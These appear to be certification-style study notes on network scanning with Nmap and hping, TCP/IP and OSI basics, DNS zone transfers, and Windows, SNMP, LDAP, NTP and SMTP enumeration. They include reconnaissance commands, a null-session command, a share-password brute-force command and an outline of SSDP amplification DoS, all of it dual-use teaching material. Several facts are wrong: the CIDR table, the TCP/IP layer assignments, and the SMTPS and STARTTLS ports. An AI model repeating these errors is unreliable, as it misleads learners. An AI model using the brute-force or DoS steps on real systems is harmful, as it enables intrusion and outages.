  - [Nmap](https://Nmap.org/book/host-discovery-controls.html): `nmap -sL <ip-address>`

### SSDP Scanning

- Used to detect UPnP vulnerabilities and carry out buffer overflow or DoS attacks
- **SSDP**
  - Simple Service Discovery Protocol
  - Network protocol based on for discovery of devices on same network
  - Basis of UPnP (Universal Plug and Play) protocol
- Steps:
  1. Attacker discovers networked devices and create a list of all the devices that respond.
  2. Attacker creates a UDP packet with the spoofed IP address of the targeted victim.
  3. Attacker then uses a botnet to send a spoofed discovery packet to each plug-and-play device
  4. Each device will send a reply to the targeted victim with an amount of data up to about 30 times larger than the attacker's request.
  5. The target then receives a large volume of traffic from all the devices and becomes overwhelmed, potentially resulting in denial-of-service to legitimate traffic
- Tools
  - [Metasploit](https://github.com/rapid7/metasploit-framework/blob/master//modules/auxiliary/scanner/upnp/ssdp_msearch.rb): `use auxiliary/scanner/upnp/ssdp_msearch`

### ARP Scan

- Useful when scanning an ethernet LAN
- **ARP**: Regular ARP packet request looks for the MAC address using the device's IP address.
- Tools
  - `nping`: Learn router MAC address: `nping --arp-type ARP <router-ip-address>`
  - [`nmap`](https://Nmap.org/book/host-discovery-techniques.html): `nmap -sn -PR 192.168.0.*`
    - `-PR`: ARP discovery
    - `-sn`: skip port scan

## Countermeasures

- Configuring firewall and IDS to detect and block scans
- Protecting mechanisms for filtering and routing from being bypassed using certain ports
- Updating the router, IDS, and firewall
- Keeping as few ports open as necessary and filtering the rest
- Checking the configuration of the network and its ports
- Ensuring the proper configuration of anti- scanning and spoofing rulesets
# Scanning tools

## Nmap

- Scans network by sending specially crafted packets
- Allows finding hosts on network with service, OS and firewall information
- Allows custom scripts written in LUA using **NSE (Nmap Scripting Engine)**
  - 💡 Can be used to detect and/or exploit vulnerabilities
  - E.g. can [detect shellshock using nmap scripting engine](./../05-vulnerabilities/common-vulnerabilities.md#detecting-shellshock-using-nmap)
- Includes
  - [Ncat](https://Nmap.org/ncat/): reads and writes data across networks from the command
  - [`ndiff`](https://Nmap.org/ndiff/): compares scan results
  - [`nping`](https://Nmap.org/nping/): generates packets and analyzes responses
- 🤗 Used often in movies including Matrix Reloaded, see [the list](https://nmap.org/movies/)
- See also [Nmap | Network footprinting](./../02-footprinting/network-footprinting.md#nmap) and [Nmap | Vulnerability analysis](./../05-vulnerabilities/vulnerability-analysis.md#nmap).

### [Phases of an Nmap scan](https://Nmap.org/book/Nmap-phases.html)

1. **Script pre-scanning**: Runs NSE scripts that are run once per execution for each targets, e.g. `dhcp-discover`.
2. **Target enumeration**: Resolves DNS names, CIDR network notations etc. to list of IPv4 or IPv6 addresses
3. **Host discovery (ping scanning)**: Checking if a host (or which hosts are) is alive before deeper investigation
4. **Reverse-DNS resolution**: Provides IP numbers for hosts that are alive
5. **Port scanning**: Probes are sent and remote port states are classified as `open`, `closed`, `filtered`
6. **Version detection**: Determines what server software is running on remote system
7. **OS detection**: Determines OS that's running on the port
8. **Traceroute**: Usually involves another round of reverse-DNS resolution for intermediate hosts.
9. **Script scanning**: Runs most of the scripts rather than pre-scan and post-scan phases.
10. **Output**: Prints results using different options e.g. XML
11. **Script post-scanning**: Runs scripts that process results and deliver final reports and statistics

### Common Nmap options

- 📝 All options are important for a security tester to be able to use Nmap.
- `-n` (no resolution): Skips DNS resolution and scanning for DNS addresses
- `-A`: Enable • OS detection • version detection • script scanning • traceroute
- `--traceroute`: Enables trace routing
- `--script` or `-SC`: Activates custom script scanning

#### `-s*`: port scan options

- Uses [ICMP echo request](./scanning-techniques.md#scanning-icmp), [TCP SYN](./scanning-techniques.md#syn-scanning) to port 443, [TCP ACK to port 80](./scanning-techniques.md#ack-scanning), and an ICMP timestamp request.
- `-sn`
  - Also known as ***ping scan*** or ***host discovery***
  - Skips port scanning
- Common commands include:
  - TCP port scanning: `-sS` ([SYN](./scanning-techniques.md#syn-scanning)), `-sT` ([connect](./scanning-techniques.md#tcp-connect)), `-sN` ([NULL](./scanning-techniques.md#null-scan)), `-sF` ([FIN](./scanning-techniques.md#fin-scan)), `-sX` ([XMAS](./scanning-techniques.md#xmas-scan))
  - UDP port scanning: `-sU` ([UDP](./scanning-techniques.md#udp-scanning))
  - `-sV`: service/version detection scan
  - `-sO`
    - IP protocol scan
    - Not really a port scan
    - Lists supported IP protocols (TCP, ICMP, IGMP etc.) by target system.

#### `-P*`: ping (host discovery) options

- `-P*` options are used to select different ping methods
- User with `-sn` to skip port scanning and do host discovery only.
- Common commands include:
  - TCP: `-PS`, ([SYN](./scanning-techniques.md#syn-scanning)), `-PA` ([ACK](./scanning-techniques.md#ack-scanning))
  - Others: `-PR` ([ARP](./scanning-techniques.md#arp-scan)), `-PO` (IP protocol ping), `-PE` [ICMP](./scanning-techniques.md#icmp-ping-sweep) `PU` ([UDP](./scanning-techniques.md#udp-scanning))
  - **`-Pn` (no ping)**
    - Also known as ***pingless scan*** or ***port scan***
    - Skips host discovery and treats all hosts as online

#### Specifying ports

- `-p-` to scan all ports (`1-65535`)
- `-p`: only scan specified ports
  - E.g. `-p U:53,111,137,T:21-25,80,139,8080`
- `-r`: Scan ports consecutively - don't randomize

#### `-O`: OS fingerprinting

- `-O` is used for operating system fingerprinting
- It's Far more effective if at least one open and one closed TCP port are found.
  - Flag with `--osscan-limit` and Nmap will not try OS detection against hosts that do not meet this criteria.
- `--fuzzy` or `--osscan-guess` switch: Nmap will guess more aggressively
- ❗Requires `sudo` privileges
- See also [banner grabbing](./banner-grabbing.md)

#### `-o*`: output options

- `-oX` for XML output.
- `-oG` for `grep`able output to be able to use linux [`grep` command](../06-system-hacking/linux-basics.md) to search in text
- ❗ Not to be confused with `-O` (OS fingerprinting)

#### Faster scans

- `-T*`: Timing template
  - From slowest to fastest: `-T0` (paranoid), `-T1` (sneaky), `-T2` (polite), `-T3` (normal | default), `-T4` (aggressive) or `-T5` (insane)
- `-F`: Fast (limited port) scan
  - Nmap as default most common 1000 ports, `-F` reduces it to 100
- ❗ If the scan is too fast the system can drop the packets
  - Risky because the system can cancel the whole scan when it detects for the first time.

#### Target specification

- `nmap <target>`
- Everything that isn't an option (or option argument) is treated as a target host specification
- Target can be IP address(es) or hostname(s) (resolved via DNS)
- Target can be specify single or multiple hosts:
  - Scanning single host:
    - E.g. `nmap 192.168.10.0` (IP address) or `nmap localhost` (hostname)
  - Scanning many hosts:
    - CIDR style addressing
      - E.g. `192.168.10.0/24` would scan the 256 hosts
    - Octet range addressing (more flexible)
      - E.g. `192.168.0-255.1-254`
      - Full octet scan: `192.168.0.*`
    - Using target list: `nmap -iL targets`
    - Scan multiple addresses using `nmap <target-1>, <target-2> ...`
      - E.g. `nmap privacy.sexy cloudarchitecture.io`

## Hping

- [Open-source](http://www.hping.org/) port scanner
- Sends custom ICMP, UDP, or TCP packets and then displays any replies

### Hping vs Nmap

- `nmap` can scan a range of IP addresses
  - `hping` can only port scan one individual IP address
- `hping` is more lower level and stealthier than `nmap`
- `hping` does not support IPv6 while `nmap` does.

### Common hping commands

- `--tcp-timestamp`
  - Enables TCP timestamps
  - Tries to guess the timestamp update frequency and the remote system uptime.
  - ❗ Many firewalls drop packets without timestamp.
- `-Q` or `--seqnum`
  - Collects sequence numbers generated by target host
  - Useful when you need to analyze whether TCP sequence number is predictable.
- Setting flags using
  - `-F` (`FIN`), `-S` (`SYN`), `-R` (`RST`), `-P` (`PUSH`), `-A` (`ACK`), `-U` (`URG`)
- Scanning entire subnet: `hping3 -1 10.0.1.x`
- Listen to traffic (e.g. to sniff): `hping3 -9 HTTP -I eth0`
- See also its [man page](https://linux.die.net/man/8/hping3)

## Mobile tools

- [IP Scanner](https://10base-t.com) for IOS
- [Fing](https://www.fing.io) for IOS and Android
# TCP/IP

## TCP connection

### Three-way handshake

- Also known as • **3-way handshake** • **three-way handshake** • **3 way handshake** • **three way handshake**
- Establishes a TCP connection
- 📝 Sender: `SYN` → Receiver: `SYN ACK` → Sender: `ACK`
  - 
- `ACK` is then set in every packet sent after the handshake

### Termination

- 📝 Sender: `FIN` → Receiver: `ACK FIN` → Sender: `ACK`

## IPv4

- IPv4 loopback address (localhost of your own machine) is `127.0.0.1`

### IPv4 address types

1. **Unicast**
   - Acted on by a single recipient
2. **Multicast**
   - Acted on only by members of a specific group
3. **Broadcast**
   - Acted on by everyone in the network
   - Two types:
     - **Limited broadcast**
       - Delivered to every system inside a domain using:
         - IP: 255.255.255.255
         - MAC: FF:FF:FF:FF:FF:FF
       - Ignored by routers
     - **Directed broadcasts**
       - Sent to all devices on subnet
       - Use subnets broadcast address
         - E.g. if subnet is 192.168.17.0/24 then it uses 192.168.17.255
       - Routers may take action on the packets.

## IPv6

- IPv6 uses a 128-bit address instead of the 32-bit IPv4 version
- Represented as eight groups of four hexadecimal digits separated by colons
  - E.g. `2001:0db8:85a3:0000:0000:8a2e:0370:7334`
- Leading zeros can be removed e.g.
  - Original: `2001:0001:0002:0003:0004:0005:0006:0007`
  - Short: `2001:1:2:3:4:5:6:7`
- The loopback address is `::1`
  - Shortened version of `0000:0000:0000:0000:0000:0000:0000:0001`

## CIDR

- Method of the representing IP addresses
- 📝 Easy way to find out CIDR ranges, remember: `/24 255.255.255.0 256`
  - So `/24` gives 256 IP addresses, `/25` gives 128, `/26` gives 64 and so on.
- IPv4 Notation

  | CIDR Range | Total IP Addresses | Subnet mask |
  | ---------- | ------------------ | ----------- |
  | `/32` | 0 | `255.255` |
  | `/30` | 4 | `.225.252` |
  | `/28` | 16 | `.255.240` |
  | `/26` | 64 | `.255.192` |
  | `/24` | 256 | `.255.0` |
  | `/22` | 1024 | `.248.0` |
  | `/20` | 4096 | `.240.0` |

## TCP flags

- Used to indicate a particular connection state or provide additional information
- Size of each flag is 1 bit being either `0` or `1`
- 📝 Flag types
  - **Synchronization (`SYN`)**
    - Also known as **synchronization** flag.
    - Synchronize sequence numbers
    - First step of connection establishment (3-way handshake)
    - ❗ Only the first packet sent from each end should have this flag set
  - **Acknowledgement (`ACK`)**
    - Confirms successful packet retrieval
  - **Push (`PSH`)**
    - Tells receiver to process packets instead of buffering them
  - **Urgent (`URG`)**
    - Process packets directly before others, even if they're not complete
  - **Finish (`FIN`)**:
    - `1` indicate connection termination requests
    - Used in the last packet sent from the sender.
  - **Reset (`RST`)**
    - `1` aborts the connection in response
    - Sent from the receiver to the sender when a packet is sent to a particular host that was not expecting it.
    - Also used as
      - DDoS attack, see [`RST` attack](./../13-web-applications/denial-of-service.md#rst-attack)
      - Scanning technique, see [RFC 793 scans](./scanning-techniques.md#rfc-793-scans)

### Finish (`FIN`) vs Reset (`RST`)

| `FIN` | `RST` |
| ----- | ----- |
| Gracefully termination | Sudden termination |
| Only one side of conversation is stopped | Whole conversation is stopped |
| No data loss | Data is discarded |
| Receiver of `FIN` can choose to continue communicating | Receiver has to stop communication |

### Push (`PSH`) vs Urgent (`URG`)

| `PSH` | `URG` |
| ----- | ----- |
| All data in buffer are pushed | Only urgent data is pushed immediately |
| Data is delivered in sequence | Data is delivered out of sequence |

## TCP/IP sessions

- TCP uses stateful sessions
- Connection establishment must be done before data transfer
- **Session initiation**
  1. Source sends SYN packet
  2. Destination responds with SYN/ACK packet
  3. Source sends ACK packet
  - Connection stays open until closed with `FIN` or `RST` packets.
- Session termination

## OSI model

- Conceptual model that characterizes and standardizes the communication functions
- 📝 Uses seven abstraction layers:
  1. **Physical** (bits)
     - Media, signal & binary transmission
     - E.g. • Cables (fiber) • Fiber • Wireless • Hubs • Repeaters
  2. **Data link** (frames)
     - Physical addressing: MAC & LLC
     - E.g. • Ethernet • [PPP](./../15-cryptography/tunneling-protocols.md#ppp-point-to-point-protocol) • Switch • Bridge
  3. **Network** (packets)
     - Path determination & IP
     - E.g. • IP • [ICMP](./scanning-techniques.md#scanning-icmp) • [IPSec](./../15-cryptography/tunneling-protocols.md#ipsec) • IGMP
  4. **Transport** (segments)
     - End-to-end connections and reliability
     - E.g. • TCP • UDP
  5. **Session** (data)
     - Sync & send to ports, inter-host communication
     - E.g. • API's • Sockets • WinSock
  6. **Presentation** (data)
     - Syntax layer
     - Encrypts/decrypts if needed
     - E.g. • [SSL/TLS](./../15-cryptography/encrypting-communication.md#ssltls) (not entirely) • [SSH](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell)  • IMAP • [FTP](./../15-cryptography/encrypting-communication.md#ftp-file-transfer-protocol) • MPEG • JPEG
  7. **Application** (data)
     - End User Layer: network process to application
     - E.g. • HTTP • [FTP](./../15-cryptography/encrypting-communication.md#ftp-file-transfer-protocol) • IRC • [SSH](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell) • [DNS](./../04-enumeration/dns-enumeration.md#dns) • [SMTP](./../04-enumeration/enumeration-overview.md#smtp)
- See also • [Firewall types per OSI Layer | Firewall](./../11-firewalls-ids-and-honeypots/firewall-overview.md#firewall-types-per-osi-layer) • [Vulnerability stack | Hacking web applications](./../13-web-applications/hacking-web-applications.md#vulnerability-stack) • [Encryption types per OSI layer | Encryption algorithms](./../15-cryptography/encryption-algorithms.md#encryption-types-per-osi-layer)

## TCP/IP model

- TCP/IP model defines four levels:
  1. **Link layer**: • [ARP](./../08-sniffing/arp-poisoning.md#arp) • [PPP](./../15-cryptography/tunneling-protocols.md#ppp-point-to-point-protocol) • [MAC](./../08-sniffing/sniffing-attacks-overview.md#mac)
  2. **Internet layer**: • TCP • UDP • DCCP • SCTP ...
  3. **Transport layer**: • IP • ICMP • ECN • [IPSec](./../15-cryptography/tunneling-protocols.md#ipsec) ...
  4. **Application layer**: • [DNS](./../04-enumeration/dns-enumeration.md#dns) • HTTP • HTTPS • [FTP](./../15-cryptography/encrypting-communication.md#ftp-file-transfer-protocol) • [SSH](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell)) • SMTP ...
- ❗ OSI model does not match well TCP/IP
  - [RFC 3439](https://tools.ietf.org/html/rfc3439) considers layering "harmful"
- ❗ E.g. SSL/TLS does not fit in any of OSI or TCP/IP layers
  - In OSI it's in layer 6 or 7, and, at the same time, in layer 4 or below.
  - In TCP/IP it's in between the transport and the application layers.

## TCP/IP vs OSI model

| TCP/IP | Protocols and services | OSI model |
| ------ |:----------------------:| --------- |
| Application | • HTTP • [FTP](./../15-cryptography/encrypting-communication.md#ftp-file-transfer-protocol) • Telnet • [NTP](./../04-enumeration/enumeration-overview.md#ntp) • DHCP • PING | • Application • Presentation • Session |
| Transport | • TCP • UDP | Transport |
| Network | • IP • [ARP](./../08-sniffing/arp-poisoning.md#arp) • [ICMP](./scanning-techniques.md#scanning-icmp) • IGMP | Network |
| Network interface | • Ethernet • PPTP | • Data Link • Physical |
# DNS enumeration

## DNS

- Stands for "Domain Name System"
- Hierarchical and decentralized naming system
- Used for resources connected to the Internet including computers and services
- Runs on TCP/UDP port 53

### DNS records

- Database record used to map a URL to an IP address
- Stored in zone files in DNS servers
  - A DNS server contains a "zone file" for each domain
  - Zone file is made up of "resource records" (RRs)
- Helps users connect their websites to the outside world.
- 📝 Common DNS records include
  - **`A`**
    - Points a domain to an IPv4 address, such as `11.22.33.44`.
  - **`AAAA`**
    - Points a domain to an IPv6 address, such as `FE80::0202:B3FF:FE1E:8329`.
  - **`MX`**
    - Mail eXchange records are used to direct emails sent to domain
    - See also [MX records | Whois, GeoIpLocation and DNS interrogation](./../02-footprinting/whois-geoiplocation-and-dns-interrogation.md#mx-records)
  - **`NS`**
    - Used to delegate a domain or subdomain to a set of name servers
  - **`SOA`**
    - Contains data to control the zone transfer.
    - Includes serial number, timestamps, mail address of zone responsible..
    - E.g.

      ```txt

        $TTL 86400
        @   IN  SOA     ns.icann.org. noc.dns.icann.org. (
                2020080302  ;Serial
                7200        ;Refresh
                3600        ;Retry
                1209600     ;Expire
                3600        ;Minimum TTL
        )

      ```

  - **`CNAME`**
    - Link a subdomain to a domain's existing A or AAAA record
    - E.g. `www.cloudarchitecture.io` to `cloudarchitecture.io`
  - **`PTR`**
    - Opposite of `A`, points an IP to domain
    - Commonly used for spam verification for e-mail programs
  - **`HINFO`**
    - System information including CPU and OS type.

## DNS enumeration techniques

- Check all NS Records for [zone transfers](#zone-transfers).
- Enumerate general [DNS records](#dns-records) for a given domain.
- Perform common SRV Record Enumeration.
  - Service records contain the hostname, port and priority of servers for a given service.
  - Enumerates e.g. • LDAP • Autodiscover for Exchange • Kerberos...
  - E.g. by `nmap --script dns-srv-enum --script-args "dns-srv-enum.domain='google.com'"`
- Brute force subdomain and host A and AAAA records discovery with given top domain and wordlist.
- DNS PTR lookup given a IP range CIDR range
  - Querying dns for PTR record of each IP in subnet
- See also [DNS interrogation](./../02-footprinting/whois-geoiplocation-and-dns-interrogation.md#dns-interrogation)

### DNS cache snooping

- Checks a DNS server cached records.
   Done by performing **non-recursive** (or also known as **iterative**) DNS queries
  - Also known as iterative query
  - Server returns either its own record or another DNS server that may know the answer.
  - As opposed to [recursive DNS lookup](../12-web-servers/web-server-threats-and-attacks.md#recursive-dns-lookup) where servers communicates with other DNS servers.
- **Tools**
  - Automated: [dnsrecon](#dnsrecon)
  - 📝 Manual:
    - `dig` with `+norecurse` flag
    - `nslookup` with `-norecurse` flag
    - `host` with `-r` flag

## Zone transfers

- DNS server passes a copy of part of it's database ("zone") to another DNS server
- There's one master DNS server, and one or more slave DNS servers
  - Slaves ask master for a copy of records
- Uses TCP port 53
- 📝 Uses **AXFR** (full) protocol or **IXFR** (incremental).
- The secondary server request a new copy if the primary SOA serial number is higher.
  - The primary increments the serial number every time the SOA changes
  - If the secondary checks in and the primary’s copy has a higher serial number

### DNS zone transfer attack

- Pretending to be a slave and ask for records
- Allows an attacker to obtain sensitive information about internal DNS records (network).
- 📝 Flow
  1. Get NS records (DNS servers that are responsible for resolving the queries)
     - Using `dig`: `dig ns zonetransfer.me` or `dig +short ns zonetransfer.me`
     - Using `nslookup`: `nslookup zonetransfer.me`
  2. Initiate AXFR request to get a copy of the zone from name server
     - Using `dig`: `dig axfr @<DNS you are querying> <target>`
       - E.g. `dig axfr @nsztm1.digi.ninja zonetransfer.me`
     - Using `nslookup`
       - `nslookup -ls -d nsztm1.digi.ninja`
         - `-d`: list all records for DNS domain
         - Sends AXFR query to the remote nameserver
         - Initiates zone transfer if and only if the remote nameserver is dumb enough to respond to unsolicited, unauthorized AXFRs originating from random machines on the Internet.
       - Or using interactive mode with specified a DNS server:

       ```txt
         $ nslookup
         > server <DNS you are querying>
         > set type=any
         > ls -d <target>
       ```

     - Or `nslookup -query=AXFR <target> <DNS you are querying>`
     - Using `host`: `host -l nsztm1.digi.ninja`
- 🤗 In June 2017 the registrar responsible for Russian top-level-domains accidentally enabled DNS zone transfers via AXFR which led to 5.6 million records being accidentally exposed | [source](https://securitytrails.com/blog/russian-tlds)

### Zone transfers countermeasures

- Do not allow or restrict zone transfers
- Use [split DNS](#split-dns)

#### Split DNS

- Also known as ***split-horizon DNS***, ***split-view DNS***, ***split-brain DNS*** or ***split DNS***
- 📝 Separation of internal network (intranet) DNS and public network (Internet) DNS
- Provides different answers to DNS queries based on the source address of the DNS request.
- Can be accomplished with hardware or software solutions

## DNS enumeration tools

### dnsrecon

- [Open source](https://github.com/darkoperator/dnsrecon) python script
- E.g. `./dnsrecon.py -d cloudarchitecture.io`
- Enumerates DNS records and more

### nslookup

- Limited: Depends on existence of DNS reverse lookup zone.
- Forward lookup (normal): Here's name give me IP
- Reverse lookup: Here's IP give me back the name

### dig

- *Nix tool for querying DNS
- E.g. `dig cloudarchitecture.io any`
  - `any` argument (optional): all records it can find
- `dig axfr cloudarchitecture.io`

### `host`

- On Unix-like operating systems, the `host` command is a DNS lookup utility
- Using e.g. `host <target-domain>` to see all records.
- 📝 You can also set type `-t` to see specific records e.g.
  - `host -t a <target-domain>` to see A records
  - `host -t ns <target-domain>` to see NS records
  - ...
# Enumeration overview

- Actively engage a system and query it for information.
- Used to discover vulnerabilities and then exploit them.
- Information collected include routing tables, users and groups, machine names, network resources.

## Common ports and services to enumerate

- 📝 List of most commonly enumerated services and their ports

  | Port | Protocol | Service |
  | ---- | ---- | ------- |
  | 25 | TCP | [SMTP (Simple Mail Transfer Protocol)](#smtp-enumeration) |
  | 53 | TCP/UDP | [DNS (Domain Name System)](./dns-enumeration.md) |
  | 135 | TCP/UDP | Microsoft RPC Endpoint Mapper |
  | 137 | UDP | [NetBIOS Name Service](#netbios-enumeration) |
  | 139 | TCP | [SMB over NetBIOS](#netbios-enumeration) |
  | 161 | UDP | [SNMP (Simple Network Management Protocol)](#snmp-enumeration) |
  | 162 | TCP/UDP | [SNMP Trap](#snmp-enumeration) |
  | 389 | TCP/UDP | [LDAP](#ldap-enumeration) |
  | 445 | TCP/UDP | SMB over TCP |
  | 465 | TCP | [SMTP over TLS](#smtp-enumeration) |
  | 500 | UDP | ISAKMP/[IKE](./../15-cryptography/tunneling-protocols.md#ike-internet-key-exchange) |
  | 514 | UDP | Syslog, used for system logging |
  | 587 | TCP | [SMTP over **optionally*** STARTTLS](#smtp-enumeration) |
  | 1433 | TCP/UDP | Microsoft SQL Server |
  | 3268 | TCP/UDP | Global Catalog Service |
  | 5060, 5061 | TCP/UDP | SIP (Session Initiation Protocol) |

- Read more on [IANA ports list](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.txt)
- See also • [Port monitoring | Malware analysis](./../07-malware/malware-analysis.md#port-monitoring) • [Common ports to scan | Scanning networks](./../03-scanning-networks/scanning-networks-overview.md#common-ports-to-scan)

## Enumeration techniques

- Extracting user names using email ID's
  - E.g. if the e-mail is tom.john@smith.com then tom.john is probably the user name
- Extract information using the default password
  - Identifying OS would tell the default password
  - If no one has changed it can be used to gather more information.
- [DNS enumeration](./dns-enumeration.md)

### Windows enumeration

- **Enumerating all shares**
  - `net share` or `net view \\serverName /all`
- **Enumerating machine configuration through null sessions**
  - Null sessions allow for enumeration of Windows machines to access information about the machine configuration.
  - E.g. `net use \\target\ipc$ "" /user: "`
- **Configurable services and server/workstation settings**
  - `net config`

### Windows user account enumeration

#### Security Identifier (SID)

- A **subject** can access an **object** with given **permissions**
- **Subject** (who)
  - Windows internally identifies entities as "Security Principals" also known as "Subject"s
  - E.g. user accounts, groups, computers and services
- Subjects are assigned SID (Security Identifier) by the system
- E.g. S-**1**-**5**-**21**-1852694824-1489621752-332472329-**500**
- 📝 Format: `S-<revision-level>-<authority-id>-<first-subauthority>-<o-N subauthorities>-<relative identifier(RID)>`
  - **Authority ID**
    - 0 - `SECURITY_NULL_SID_AUTHORITY` - null group or nobody
    - 1 - `SECURITY_WORLD_SID_AUTHORITY` - account Everybody
    - 2 - `SECURITY_LOCAL_SID_AUTHORITY` - group account Local (logged in users)
    - 3 - `SECURITY_CREATOR_SID_AUTHORITY` - Creator Owner
    - 5 - `SECURITY_NT_AUTHORITY` - Created by OS
    - There are [many more](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/security-identifiers-in-windows)
  - **Sub Authority ID**
    - 5 - For applications that run under a specific session
    - 6 - When a process authenticates as a service
    - 21 - For SIDs that are not universal but has local significance
    - 32 - Identifies built-in SIDs
    - 80 - Identifies services' SIDs
  - **Relative identifier (RID)**
    - 500 - Administrator
    - 501 - Guest

#### Windows user account enumeration tools

- `user2sid` and `sid2touser`: Brings SID value for a given account name and vice versa
  - E.g. `user2sid \\SVR1 Guest`
  - Getting SID allows enumeration of accounts/groups by changing RID
    - E.g. `sid2user \\SVR1 5 21 1928525985 232339646 3462474693 501`
      - Returns like `Name is Guest`, `Domain is DEMO`, `Type of SID is SidTypeUser`
      - Syntax: `sid2user [\computer_name] authority subauthority_1 …`
- [`dumpusers`](https://vidstromlabs.com/freetools/dumpusers/): All-in-one tool to dump account names and information
- [`GetAcct`](https://packetstormsecurity.com/files/download/25056/getacct003.zip): Can dump account information as CSV file.
- From [SystemTools](https://www.systemtools.com/index.html):
  - [DumpSec](https://www.systemtools.com/somarsoft/index.html): lists all users and the groups they are in
  - [Hyena](https://www.systemtools.com/hyena/download.htm?gclid=EAIaIQobChMIq9udy-mF7QIVlB4YCh1yUgPoEAAYASAAEgK8T_D_BwE) dumps shares and user login names for Windows domain controllers and servers on same network.
- [PsGetSid](https://docs.microsoft.com/en-us/sysinternals/downloads/psgetsid): Translates SIDs to their display name and vice versa

### NetBIOS enumeration

- NetBIOS (Network Basic Input/Output System) is a unique name of a Windows machine.
- 📝 Allow computers
  - to communicate with others at the same time
  - to share files and printers
- Uses SMB (service message block) protocol
  - Network file sharing protocol.
  - 🤗 Was targeted by [WannaCry ransomware](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack) who traversed the network and injected hosts.
- Easily exploitable, often used as one of the first scans.
- Helps to collect: • System name • Username • Domain • Printers • Available shares

#### NetBIOS enumeration tools

- [nbtstat](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/nbtstat)
  - Proprietary Windows diagnostic tool for NetBIOS over TCP/IP.
  - `nbtstat -a <IP or hostname>`: shows NetBIOS names
- `net view <IP or hostname>` prints available shares such as printers.
- [smb-nat](http://manpages.ubuntu.com/manpages/trusty/man1/smb-nat.1.html)
  - NetBIOS Auditing Tool)
  - `nat -o <output file> -u <user-list> -p <password-list> <ip/range>` allows you to brute force different usernames and passwords for administrative shares.
- [WinFingerPrint](https://github.com/kkuehl/winfingerprint)
  - Windows enumeration tool
  - Scan machines in LAN and returns shares, disk information, services, users (SID), groups..

### SNMP enumeration

- Also known as ***SNMP walking***
- SNMP stands for Simple Network Management Protocol.
- Used for
  - monitoring networking equipment
  - remotely modifying settings and configs on the equipment
- Was developed for routers and switches (1988)
  - Extended for linux/windows machines, printers, sensors, power supplies and more...
- Two kind of **community strings**:
  - Read community string: read-only.
    - You can collect information such as
      - System name, system uptime, network settings, CPU usage level etc.
  - Read/write community string: read-write (private) to edit configurations
  - 💡 SNMPv3 encrypts the community strings
- Consists of a **manager** and an **agent**
  - **Agent**s are embedded into network devices.
    - Agents send their information to manager using port 162.
    - Data messages are called traps.
  - **Manager** is installed on a computer.
    - Needs two passwords to access and configure the agents:
      - read community string
      - read/write community string
- **Object identifier (OID)**
  - Any device that can be monitored has an OID.
  - E.g. `1.3.6.1.2.1.2.2.1.8`
- **Management Information Base (MIB)**
  - Text-file that translates numerical OIDs to word-based OIDs.
    - E.g. `SYNOLOGY-SYSTEM-MIB::temperature.0`
  - You can collect information CPU usage level, disk usage level, network settings using vendor-specific OIDs.
- Version 1, 2: (❗️ insecure) No encryption, only "community string" and no encryption
- Version 3: Username + password and encryption

#### SNMP enumeration tools

- [**`snmpwalk`**](https://ezfive.com/snmpsoft-tools/snmp-walk/)
  - Enumerates ports in SNMP agent and finds out UDP port sending traffic to manager.
  - `snmpwalk -c public -v1 <agent IP address>`
  - Starts listening to the port.
- **`snmp-check`**
  - You can find out the version using `snmp-check <IP address> -v <version 1 or 2c>`
    - Gives much more information like routing tables, storage information, users etc.
- [**`snmp-get`**](https://ezfive.com/snmpsoft-tools/snmp-get/)
  - Retrieve specific OID information from target using `-o`
  - SNMP community string for SNMP v1/v2c.
    - E.g. `sysName.0` for system name
  - E.g. `snmpget -v 1 -c public system.sysName.0`

### LDAP enumeration

- See also [brute-forcing active directory](#brute-forcing-active-directory)

#### LDAP

- LDAP stands for Lightweight Directory Access Protocol
- Used by on-premises Active Directory (Microsoft)
- 📝 Hierarchical e.g. domain > child-domains > organizational units > users / groups / computers.
- May return information about usernames, addresses, servers, and other sensitive information.
  - could be utilized in a brute force or social engineering attacks.

#### LDAP enumeration countermeasures

- Use over encrypted and secure protocols e.g. by e.g.
  - **LDAP over SSL/TLS**
    - Also known as **LDAPS**
    - SSL/TLS is negotiated before LDAP protocol begins.
  - **LDAP over StartTLS**
    - STARTTLS is a way to take an existing insecure connection and upgrade it to a secure connection using TLS.
    - Communication is only encrypted after the connection is established.
- Use NTLM or Basic authentication
- Select a username different from your email address

#### LDAP enumeration tools

- [Jxplorer](https://www.jxplorer.org/)
- [LDAP Admin Tool](https://www.ldapsoft.com)
- [LDP.exe](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771022(v=ws.11))
- [Softerra LDAP Administrator](https://www.ldapadministrator.com/)
- 📝 [`net use`](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/gg651155(v=ws.11)) to show list of connected resources and logged-in user accounts.

### NTP enumeration

#### NTP

- 📝 NTP (Network Time Protocol) is to synchronize computer clocks.
- E.g. machines in same domain in Active Directory must have same GMT clocks.
- Uses UDP 123
- Target accuracy
  - 10 ms over the public internet
  - 200 ms or better on a local area network
- 🤗 Usually companies have authority of time-source on their on-premises, it synchronizes to internet and everything else synchronizes to it.
  - Important for routers / switches to have logs with right timestamps.
- Attackers query NTP for
  - List of hosts connected to NTP server
  - Clients IP addresses, system names and operating systems.
  - Internal IP addresses can be acquired if the NTP server is on the DMZ

#### NTP enumeration tools

- [`ntptrace`](https://www.eecis.udel.edu/~mills/ntp/html/ntptrace.html): traces NTP servers back to the primary source.
- [`ntpdc`](http://doc.ntp.org/4.1.2/ntpdc.htm): monitors operation of the NTP daemon, ntpd
- [`ntpq`](http://doc.ntp.org/4.1.0/ntpq.htm): monitors NTP daemon ntpd operations and determines performance.
- Other tools include: • NTP Time Server Monitor • NTP server Scanner • Nmap • Wireshark • AtomSync • NTPQuery, • PresenTense NTP Auditor • PresenTense Time Server • PresenTense Time Client • Lan Time Analyser...

### SMTP enumeration

#### SMTP

- SMTP = Simple Mail Transfer Protocol (port: 25)
- Protocol used for sending/receiving e-mails.
  - Used by clients talk to SMTP servers
  - Used also by SMTP servers to talk to other servers.
- Secure/encrypted protocols include:
  - **SMTPS** is SMTP over TLS (port: 587)
    - 🤗 Like HTTPS is HTTP over TLS
  - SMTP can also run with STARTTLS (port: 467)
